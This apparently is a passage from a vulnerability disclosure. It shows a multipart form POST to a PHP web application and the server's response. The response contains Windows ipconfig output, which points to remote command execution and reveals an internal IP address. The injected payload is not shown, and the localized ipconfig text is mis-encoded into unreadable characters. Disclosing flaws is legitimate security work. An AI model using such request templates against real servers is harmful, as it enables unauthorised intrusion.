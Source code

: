 ```
1
------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="pubdate"

2023-09-08 19:55:03
------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="money"

0
------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="keywords"


------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="description"


------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="filename"


------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="imageField.x"

44
------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="imageField.y"

17
------WebKitFormBoundaryfoNBMhAWA73UNeUq--
```

HTTP Response: 
```
HTTP/1.1 200 OK
Connection: close
Cache-Control: private
Content-Type: text/html; charset=utf-8
Date: Fri, 08 Sep 2023 12:02:32 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
X-Powered-By: PHP/5.6.9
Content-Length: 4344


Windows IP ����


δ֪������ Appgate SDP:

   �����ض��� DNS ��׺ . . . . . . . : 
   IPv4 ��ַ . . . . . . . . . . . . : 192.168.9.86
   ��������  . . . . . . . . . . . . : 255.255.255.255
   Ĭ������. . . . . . . . . . . . . : 


��̫�������� ��̫�� 2:

   ý��״̬  . . . . . . . . . . . . : ý���ѶϿ�����
   �����ض��� DNS ��׺ . . . . . . . : 

��̫�������� VirtualBox Host-Only Network:

```